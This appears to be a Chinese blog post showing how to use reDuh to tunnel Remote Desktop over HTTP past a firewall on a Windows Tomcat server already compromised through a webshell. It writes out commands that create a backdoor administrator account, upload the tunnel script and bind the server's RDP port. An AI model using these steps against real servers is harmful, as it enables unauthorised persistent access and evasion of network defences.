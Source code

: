 ```yaml
---
layout: post
title: 利用reDuh打通HTTP隧道
categories:
- 雕虫小技
tags:
- Hack
- Windows
published: true
comments: true
---
```

在某些缺乏安全性的Windows服务器上，总会运行着一个Tomcat，上面跑着某些国内外包公司做的缺乏安全性的JSP程序。这些一环套一环的缺乏安全性就造就了一台可怜地服务器，暴露在Internet的某个小角落。但是有时，这些缺乏安全性的服务器会被一面强有力的防火墙保护着，这位忠实的卫士竭尽所能安慰着那千疮百孔的服务器。但是外来的捍卫终究抵不过自身的体弱多病……

说得这么矫情，其实只是假设一个环境。我们现在有一台跑Tomcat的Windows服务器，我们已经能够自由地上传一些文件，执行一些命令行——想必一般的Webshell都能做到这些。这时候我们想获取服务器的终极操控权——远程桌面，却发现3389端口却被防火墙挡住了，这该怎么办呢？

<!--more-->

## 准备工作

当然我们先看一下3389端口是否是开放的，命令行下执行`netstat -an`，如果能看到类似`TCP    0.0.0.0:3389 LISTENING`这样的字样就说明很有希望了。然后我们再新建一个用户吧。依次执行`net user username password /add`和`net localgroup administrators username /add`。这时候我们满心欢喜地想在机器上远程桌面连接服务器，却发现失败了。排除了一些IP排除策略的可能性后（在注册表中可以检查相关设置），多半就是防火墙的问题了。

{% img http://dayanjia.com/wp-content/uploads/2011/02/mstsc-error.png 406 272 "mstsc error" %}

## 使用reDuh建立隧道

[reDuh](http://www.sensepost.com/labs/tools/pentest/reduh)是由国外一个名叫Glenn Wilkinson的安全人员编写的一个通过HTTP协议建立隧道传输各种其他数据的工具。运行于服务器的JSP脚本接受HTTP请求，在本地转发给相应的端口，并接受本地端口的数据再通过HTTP发送给远程客户端。**这样本来应该走其他端口的数据变摇身一变，披上了HTTP协议的报文头，换走HTTP的端口了。**所有HTTP通道中的数据都是经过Base64编码的（Base64可以将二进制数据转换成ASCII字符序列，并且可以解码还原）。下面这张图详细地说明了reDuh的工作流程（图片汉化自[SensePost's BlackHat USA 2008 talk on tunnelling data in and out of networks](http://www.sensepost.com/cms/resources/labs/conferences/eye_of_the_needle/SensePost_Eye_of_a_Needle.pdf)）：

[{% img http://dayanjia.com/wp-content/uploads/2011/02/reDuh-tunnel-580x404.png 580 404 "reDuh tunnel" %}](http://dayanjia.com/wp-content/uploads/2011/02/reDuh-tunnel.png)

将JSP文件上传至服务器后，我们在自己机器上运行客户端建立连接：`java -jar reDuhClient.jar http://internal.bigcompany.com/uploads/reDuh.jsp`。产生输出：

```
[Info]Querying remote web page for usable remote service port
[Info]Remote RPC port chosen as 42000
[Info]Attempting to start reDuh from internal.bigcompany.com/uploads/reDuh.jsp.  Using service port 42000. Please wait...
[Info]reDuhClient service listener started on local port 1010
```

这时候我们登录进本机的1010端口，可以使用telnet或者netcat。登录后我们会看到`Welcome to the reDuh command line`的提示。输入`[createTunnel]1234:127.0.0.1:3389`便可以将远程服务器的3389端口和本地的1234端口绑定起来。

这时候我们便可以打开远程桌面连接，连接127.0.0.1:1234，然后就能看到熟悉的界面了。java的控制台会不断输出运行信息。因为绕了很多弯的缘故，所以远程桌面的速度并不快，但是毕竟连接上了，不是吗？

[{% img http://dayanjia.com/wp-content/uploads/2011/02/mstsc-580x448.png 580 448 %}](http://dayanjia.com/wp-content/uploads/2011/02/mstsc.png)

当需要断开连接的时候，我们只需要输入`[killReDuh]`即可。

## 隧道是个好东西

如果大家知道利用国外服务器的SSH隧道可以用来访问某些被“防火墙”挡住的国外网站的话，一定会觉得这似乎很熟悉。没错，只不过本文是使用的HTTP的80端口，而那是利用的SSH的22端口，采用的协议不同而已。

隧道就是这么个好东西，能够绕过防火墙的限制，在原本不属于自己的道路上跑运输——这就是“隧道”的本意吧？
